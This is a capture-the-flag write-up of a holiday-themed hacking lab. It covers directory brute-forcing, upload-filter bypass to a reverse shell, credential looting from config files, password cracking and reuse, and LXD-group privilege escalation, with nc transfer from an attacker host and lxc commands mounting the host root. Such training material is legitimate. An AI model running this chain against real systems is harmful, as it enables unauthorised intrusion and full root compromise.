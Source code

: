 # Day 24 |  The Trial Before Christmas

It was the night before Christmas and The Best Festival Company could finally rest. All of the toys had been made and the company had recovered from attack after attack. Everything was in Santa's hands now, leaving the elves to do little more than wish him a safe journey ahead. Elf McEager sat at his terminal staring absentmindedly at light snow that had begun to fall. Just as he had drifted off to sleep Elf McEager was jolted to attention as a small parcel appeared just at the edge of his view. 

The present was wrapped in a deep blue velvet that appeared to shimmer in and out of the firelight, not unlike a blinking terminal prompt. Carefully, Elf McEager reached for the azure ribbon, untying it slowly so as to not damage it. The velvet slowly fell away, revealing a small NUC computer with a letter on top. Unfolding the letter, Elf McEager read it aloud:


"Elf McEager - your boundless effort to save Christmas this year has not gone unnoticed. I wanted to reward you with a special present, however, there's a catch. Elf McSkidy and I have seen your skills advance and we feel it would only be appropriate to give you a present after one last challenge. Inside this package, you'll have also found a computer. Plug this into the network and hack into it. Best of luck and Merry Christmas - Santa"



Without delay, Elf McEager connected the NUC appropriately and watched it whir to life. A small screen nearby the power button blinked and then displayed the IP address assigned to the device. Next to the IP, a small symbol appeared. McEager quietly wondered to himself what it could mean as he logged into his terminal, ready to start his final challenge. 


---
Scan the machine. What ports are open?
![a53e60c8e235a5e5f4cfabe789bb4797.png](./_resources/6e198d789ef341408be7c090895155d4.png)
What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step. 
![12da31da0bcbfe82340256c5ea0cb0af.png](./_resources/468563f4851a4da58f54ddd1e640f4d8.png)

![fd5392c36a73401de03241f8181e2edd.png](./_resources/82faaff477334a319332ca15852927b7.png)	


What is the name of the hidden php page?

```
gobuster dir -u http://10.10.96.179:65000/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -x php
```

![b1c7794fea95f7ef24ed0cbbc27bde3d.png](./_resources/4a9f9ab5185a4406bf48c3b2c6be2e02.png)


![aeda37f86cb30431505bec1760e5b3b7.png](./_resources/07e61dcac4914f869b5231adfd0c8b24.png)

What is the name of the hidden directory where file uploads are saved?

grid


![846305a79ddecdf01b263315d2c89e0d.png](./_resources/9e3cd76acde845d99540ad2a7794195d.png)


### Bypass the filters. Upload and execute a reverse shell. 

Reverse Shell

![731c7f72f19982b70a0ce7d70c444bdf.png](./_resources/c4890e7ea8354ad28b7e078c98e362e0.png)

Bypass filters

![b24dcfd2ca5eae35a4e32602a746e5a7.png](./_resources/14bd92d111164b17a3936874a1366bfa.png)

Refresh the page

![41e25be96c1e51bc5b87df6d22364a84.png](./_resources/f66ebc9afbd544b5adf9a5f0514acd03.png)


![a618833f3230538932f8ace0aded7219.png](./_resources/2102e6d4a4164c58a6ed905822b63464.png)

Listener + Shell upgrade
![c3e1cfcb01ce4af9b1f129f6c74db23f.png](./_resources/9f402997dab248a0b6cf280fc26fc85f.png)


### What is the value of the web.txt flag?

![6fb6e0a3f333728a686fbaa961998ce5.png](./_resources/e3bd2823309845298e938a9eaafb242d.png)

### Upgrade and stabilize your shell. 

Kita dapat melakukan upgrade shell melalui python3 atau script


Python (disesuaikan dengan versi):

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Script:
```
script /dev/null
```

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password


![503e65c224ff797f51e5c3d1e167a421.png](./_resources/f09cf980f9c2468a981ba2d682562581.png)
tron:IFightForTheUsers

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?

![7b7fa4a018d9a6e2f3c31aba5fc00c72.png](./_resources/edc7fbf69eb04370b86efef0e9926910.png)

![fd1fc516151a0c772ce6d88c97d489dc.png](./_resources/29f25ae1c63345e0af0478a8fbc989d5.png)


### Crack the password. What is it?

![37073bb1c3ac78b06f7bceb5db6ff821.png](./_resources/230a4e1096824a82bb90081b27882fe5.png)

### Use su to login to the newly discovered user by exploiting password reuse. 
![6f42f68e388e7b3ce42073eccee8d9f1.png](./_resources/22b03208d424462fb33ff747340f68e8.png)

### What is the value of the user.txt flag?

![dea810a78db4f57211e7c459f4fa31bb.png](./_resources/0a21dae345c1490ab8903a5367fe5d43.png)

### Check the user's groups. Which group can be leveraged to escalate privileges? 
![c40141a30ebce00c56e780b66e4dc03d.png](./_resources/8b20ec5d02264eca99f4bb85cec58368.png)

https://itsef.medium.com/hack-the-box-tabby-10-10-10-194-scratch-27ec40161646

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation


Sender (attacker):
```
nc -nvlp 9001 < alpine-v3.12-x86_64-20201107_1900.tar.gz
```

Receiver:
```
nc 10.9.30.115 9001 > alpine-v3.12-x86_64-20201107_1900.tar.gz
```

Abuse LXD/LXC

```
$ lxc image import /tmp/alpine-v3.12-x86_64-20201107_1900.tar.gz --alias iamf-img
$ lxc config device add img-container iamf-test disk source=/ path=/mnt/root
$ lxc start img-container
$ lxc exec img-container sh
```

![d560ce65a4bd86ca27b7e142a032ea1c.png](./_resources/d1f0855d012e4824befca43d3558bea3.png)

THM{FLYNN_LIVES}

